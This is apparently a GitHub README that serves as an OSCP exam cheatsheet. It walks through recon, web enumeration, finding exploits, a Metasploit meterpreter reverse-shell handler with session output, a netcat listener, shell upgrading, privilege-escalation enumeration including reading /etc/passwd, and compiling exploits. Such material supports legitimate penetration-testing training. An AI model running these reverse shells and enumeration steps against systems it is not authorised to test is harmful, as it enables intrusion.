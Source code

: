 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Preparation](#preparation)
- [Recon](#recon) 
- [Preparation](#preparation) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FIND VULNS + EXPLOIT CODE

Tools:
```bash
# Nikto webapp scanner:
$ nikto -host 10.11.1.71

# Searchsploit (exploit-db):
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# Nmap Scripting ENgine
$ ls -l /usr/share/nmap/scripts/*service_name*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
# Set up Metasploit Handler (use multi-handler -> set reverse shell payload -> set variables -> run handler)
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set EXITFUNC thread
$ msf exploit(handler) > set LHOST 10.11.0.31
$ msf exploit(handler) > set LPORT 443
$ msf exploit(handler) > run
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 

# Execute Public Exploit:
$ python exploit.py [ target_ip ]

# Metasploit Handler (meterpreter session -> background the session -> connect back to session)
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.11.0.31:443 
[*] Sending stage (179267 bytes) to 10.11.1.5
[*] Meterpreter session 0 opened (10.11.0.31:443 -> 10.11.1.5:1199) at 2019-01-07 22:46:33 +1100
meterpreter > help
. . . 
meterpreter > background
msf exploit(ms08_067_netapi) > sessions -i 0
[*] Starting interaction with 0...
meterpreter >
```

Meterpreter sometimes doesn't work.  
Go back to using `nc -nvlp 80` and trigger reverse shell in vulnerable app/service.


### PRIVILEGE ESCALATION - ENUM

Get a proper shell: https://netsec.ws/?p=337
```bash
# This shell mostly works
python -c 'import pty; pty.spawn("/bin/sh")'
```

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* User RWX permissions enabled on files/directories
* Config.* files
* Custom programs
* SUID / SGID programs
* Cron jobs / scheduled programs or scripts
* Hardcoded credentials -> where are credentials kept?


Linux Privesc:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Windows Privesc:
```
# Find a file recursively
dir filename.exe /S /B
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.



### EXPLOITS - USING / COMPILING

Compilation tips:
* `./exploit` results in errors: compile in the host itself, Kali box or another machine.

Useful compilation commands:
```bash
# Linux
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit

# Windows (cross-compile) and run
$ i686-w64-mingw32-gcc 25912.c -o exploit.exe -lws2_32
$ wine exploit.exe
```


